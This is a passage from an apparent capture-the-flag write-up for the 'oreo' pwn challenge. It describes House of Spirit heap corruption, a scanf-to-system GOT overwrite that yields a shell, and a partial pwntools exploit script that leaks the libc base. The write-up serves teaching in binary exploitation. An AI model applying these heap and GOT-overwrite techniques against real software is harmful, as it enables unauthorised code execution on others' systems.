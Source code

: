 ```
0.)	Add and free 0x3f rifles. This will change the value of new_rifles to 0x40 because 0x3f + 1 = 0x40, and we already added a rifle due to the infoleak
1.)	Add another rifle, overflow the value of previous-rifle-ptr to 0x804a2a8 (the address of the first fake chunk). This will increment the value of new_rifles to 0x41
2.)	Leave a message which will overflow the size of the second fake chunk at 0x804a2e4 to 0x41
3.)	Free the fake chunk by ordering the rifles. This will add our fake chunk to the fastbin list
4.)	Allocate a chunk with the content section starting at 0x804a2a8, from the fastbin list, put the description to be the got address of scanf
```

#### Overwrite Scanf

So with the previous House of Spirit technique, we have effictively overwrittent the ptr at `0x804a2a8` (`message_storage_ptr`) with that of the got address of `scanf`, and we also have an infoleak so we know where all of libc is, we can just write to the got address of `scanf` with the libc address of `system`. Proceeding that we can just get a shell by inputting the string `/bin/sh` when it prompts us for an action, since it first scans it into memory as a char array, then passes it to scanf as a char pointer (which is the argument which system takes).

#### Written Exploit

Putting it all together, we have the following exploit:
```
# This exploit is based off of https://dangokyo.me/2017/12/04/hack-lu-ctf-2014-pwn-oreo-write-up/

from pwn import *

target = process('./oreo', env={"LD_PRELOAD":"/lib32/libc-2.24.so"})
gdb.attach(target)
elf = ELF('oreo')
libc = ELF("/lib32/libc-2.24.so")

def addRifle(name, desc):
#	print target.recvuntil("Action:")
	target.sendline('1')
#	print target.recvuntil("Rifle name: ")
	target.sendline(name)
#	print target.recvuntil("Rifle description: ")
	target.sendline(desc)

def leakLibc():
	target.sendline('2')
	print target.recvuntil("Description: ")
	print target.recvuntil("Description: ")
	leak = target.recvline()
	puts = u32(leak[0:4])
	libc_base = puts - libc.symbols['puts']
	return libc_base
def orderRifles():
	target.sendline("3")

def leaveMessage(content):
	target.sendline("4")
	target.sendline(content)
#def currentStats():

# First commence the initial overflow of the previous gun ptr with the got address of puts for the infoleak
addRifle('0'*0x1b + p32(elf.got['puts']), "15935728")

# Show the guns, scan in and parse out the infoleak, figure out the base of libc, and figure out where system is
libc_base = leakLibc()
system = libc_base + libc.symbols['system']
```